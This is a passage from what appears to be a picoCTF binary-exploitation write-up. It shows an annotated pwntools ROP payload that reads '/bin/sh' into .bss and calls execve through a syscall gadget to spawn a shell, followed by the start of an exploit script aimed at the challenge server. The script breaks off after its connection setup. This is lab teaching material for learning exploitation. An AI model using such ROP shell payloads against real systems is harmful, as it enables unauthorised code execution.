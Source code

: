 This avoids libc dependency and uses only code inside the target binary (or syscalls).

---

# The payload (annotated)

Assume variables:

* `offset` = offset to RIP (found earlier, e.g. 112 or 120)
* `pop_*` and `syscall` are the gadgets from above
* `bss` = `0x6bc3a0` (writable)

Annotated payload (Python/pwntools):

```python
payload  = b'A' * offset

# --- call read(0, bss, 16) ---
payload += p64(pop_rdi)
payload += p64(0)            # rdi = 0 (stdin)
payload += p64(pop_rsi)
payload += p64(bss)          # rsi = bss (destination)
payload += p64(pop_rdx)
payload += p64(16)           # rdx = 16 (size)
payload += p64(elf.symbols['read'])  # call read()

# --- execve(bss, 0, 0) via syscall ---
payload += p64(pop_rax)
payload += p64(59)           # rax = 59 (execve)
payload += p64(pop_rdi)
payload += p64(bss)          # rdi = bss (pointer to "/bin/sh")
payload += p64(pop_rsi)
payload += p64(0)            # rsi = NULL
payload += p64(pop_rdx)
payload += p64(0)            # rdx = NULL
payload += p64(syscall)      # syscall -> execve("/bin/sh", NULL, NULL)
```

After sending `payload` as the `Name?` input, the `read()` step will cause the binary to block and read the contents you will send next. Immediately after sending the 16 bytes `b"/bin/sh\x00"` (for example via `p.sendline(b"/bin/sh\x00")`), the ROP chain continues and triggers the `execve`.

---

# Full exploit script (polished)

This is the final script (based on your working skeleton). Replace `offset` with the value you confirmed, and confirm `bss` & gadget addresses.

```python
#!/usr/bin/env python3
from pwn import *

context.binary = ELF('./vuln')
elf = context.binary

REMOTE_HOST = 'shape-facility.picoctf.net'
REMOTE_PORT = 64338

# run with: python3 exploit.py (local)  OR: python3 exploit.py REMOTE
if args.REMOTE:
    p = remote(REMOTE_HOST, REMOTE_PORT)
else:
    p = process('./vuln')

```